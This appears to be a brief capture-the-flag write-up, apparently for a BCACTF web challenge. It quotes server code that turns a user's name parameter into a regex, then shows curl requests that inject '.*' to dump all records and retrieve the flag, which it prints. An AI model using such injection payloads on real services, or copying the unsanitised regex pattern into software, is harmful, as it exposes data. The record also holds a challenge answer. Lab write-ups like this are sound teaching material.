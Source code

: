 ```yaml
---
created: 2024-06-10T02:01
updated: 2024-06-10T23:18
---
```


> I found this database that does not use SQL, is there any way to break it?

---

```js
if (line.match('^'+req.query.name+'$')) {
	goodLines.push(line)
}
```

So it is taking our name as regex, give it `.*` then.

```sh
curl --request GET \
  --url 'http://challs.bcactf.com:30390/?name=.*'
```

There's someone with name `Flag Holder`, that's convenient.

> Ricardo Olsen has an ID of 1

Ah, so id is the index.

```sh
curl --request GET \
  --url http://challs.bcactf.com:30390/51/Flag/Holder

# bcactf{R3gex_WH1z_54dfa9cdba13}
```

Simple stuff.

